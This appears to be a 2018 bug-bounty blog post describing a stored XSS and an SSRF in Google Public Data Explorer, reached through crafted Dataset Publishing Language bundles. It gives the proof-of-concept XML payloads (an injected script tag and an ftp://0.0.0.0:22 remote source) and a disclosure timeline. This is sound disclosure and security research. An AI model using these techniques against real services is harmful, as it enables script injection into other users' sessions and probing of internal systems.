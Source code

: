 ```yaml
---
layout: post
title:  "Stored XSS, and SSRF in Google using the Dataset Publishing Language"
date:   2018-03-07 10:00:00
categories: dspl
---
```


> "Those who rule data will rule the entire world." - 孫正義

TLDR; Crafting **Dataset Publishing Language** bundles to get **stored XSS** in the context of **www.google.com**, and using the DSPL remote sources functionality to access local services (**SSRF**). 

The [Google Public Data Explorer](https://www.google.com/publicdata/directory) is a tool to make large datasets easy to explore and visualize. eg., Visualizing Health expenditure, World Bank data (% of government expenditure).
![Image](/assets/dspl/explorer.gif)

Dataset Publishing Language (DSPL) uses XML to describe the dataset metadata and uses CSV data files: eg., sample.zip

{% highlight xml %}
Archive:  sample.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      246  02-01-2018 13:19   countries.csv
      221  02-14-2011 17:13   country_slice.csv
     7812  03-04-2018 21:12   dataset.xml
      246  02-14-2011 17:13   gender_country_slice.csv
       28  01-29-2018 20:55   genders.csv
      200  02-14-2011 17:13   state_slice.csv
      300  01-29-2018 21:11   states.csv
---------                     -------
     9053                     7 files
{% endhighlight %}

The issue here was that Google Public Data Explorer would use some supplied metadata in the dataset archive without context aware encoding or validation. 

eg., using a sample dataset:
* __curl https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/dspl/tutorial1.0.zip -o sample.zip__
* __unzip sample.zip; rm sample.zip__

Modifying the metadata name value of dataset.xml. The XML CDATA section is used here so that the JavaScript payload will not be treated as XML markup.
{% highlight xml %}
<info>
  <name>
    <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
  </name>
    <description>
      <value>Some very interesting statistics about countries</value>
    </description>
    <url>
      <value>http://google.com</value>
    </url>  
</info>
{% endhighlight %}

* __zip -r poc.dspl *__
* __Upload the dataset to Google Public Data Explorer, and share it publically.__

So anyone who viewed the shared dataset would execute an attackers arbitrary JavaScript in the context of the www.google.com domain. (eg., coinhive 🤔)

Short video showing how this worked before it was fixed. Allows stored XSS in the context of www.google.com using DSPL:
<p><iframe src="https://player.vimeo.com/video/258923005" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe></p>

Dataset Publishing Language also has functionality to allow data to be retrieved from [remote HTTP or FTP sources](https://developers.google.com/public-data/docs/cookbook#remote_data). This functionality allowed SSRF (server-side request forgery) to access localhost service resources (potentially also allows access to internal, non internet accessible systems/devices).  

eg., contents of poc.dspl/dataset.xml
{% highlight xml %}
<table id="my_table">
  <column id="first" type="string"/>
  <column id="last" type="string"/>
  <data>
    <file format="csv" encoding="utf-8">ftp://0.0.0.0:22</file>
  </data>
</table>
{% endhighlight %}

Uploading this dataset would return the response of the HTTP/FTP request in the resulting error condition responses. eg., 

![Image](/assets/dspl/ftp-tcp22.png)
In this example it shows the local SSH banner response which is a service that is not publically accessible.

This was fun to look into when I took some time off in January. Thanks to [@sirdarckcat](https://twitter.com/sirdarckcat) and the Google Security team for the great VRP! If anyone reads this and finds stuff that I missed, you should let me know. 😅  [@signalchaos](https://twitter.com/signalchaos)

Thanks for reading, 👋 

Disclosure timeline stuff:
* Jan 2018: Reported to Google
* Feb 2018: Verified that the reported issues were fixed
* Feb 2018: Rewarded $5,000 for Stored XSS
* Mar 2018: Rewarded $13,337 for SSRF